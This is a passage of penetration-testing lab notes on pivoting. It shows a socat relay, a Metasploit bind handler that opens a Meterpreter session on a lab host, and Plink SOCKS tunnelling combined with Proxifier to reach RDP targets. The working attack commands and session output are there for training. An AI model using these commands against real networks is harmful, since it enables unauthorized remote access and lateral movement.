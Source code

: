 ```shell-session
socat TCP4-LISTEN:8080,fork TCP4:192.182.147.3:8443
```

**3.** Configuring & Starting the Bind multi/handler. **We do this from the attacked machine 1**.

```shell-session
msfconsole -q

use exploit/multi/handler
set RHOST 192.64.166.2
set LPORT 8080
run


[*] Started bind TCP handler against 192.64.166.2:8080
...
...
# Establishing Meterpreter Session
[*] Sending stage (200262 bytes) to 192.64.166.2
[*] Meterpreter session 1 opened (192.64.166.3:46253 -> 192.64.166.2:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor

```


## SSH for Windows: plink.exe

Plink, short for PuTTY Link, is a Windows command-line SSH tool that comes as a part of the PuTTY package when installed. Similar to SSH, Plink can also be used to create dynamic port forwards and SOCKS proxies


| NIC | Attacker machine: windows with putty | Attacked machine 2: ubuntu | Attacked machine 3: Windows |
| --- | ------------------------------------ | -------------------------- | --------------------------- |
| 1   | 10.10.10.2                           | 10.10.10.3                 |                             |
| 2   |                                      | 10.10.20.2                 | 10.10.20.3                  |

```cmd-session
plink -ssh -D 9050 ubuntu@10.10.10.3
```

Another Windows-based tool called [Proxifier](https://www.proxifier.com/) can be used to start a SOCKS tunnel via the SSH session we created. Proxifier is a Windows tool that creates a tunneled network for desktop client applications and allows it to operate through a SOCKS or HTTPS proxy and allows for proxy chaining. It is possible to create a profile where we can provide the configuration for our SOCKS server started by Plink on port 9050.

After configuring the SOCKS server for `127.0.0.1` and port 9050, we can directly start `mstsc.exe` to start an RDP session with a Windows target that allows RDP connections.

## SSH Pivoting with Sshuttle
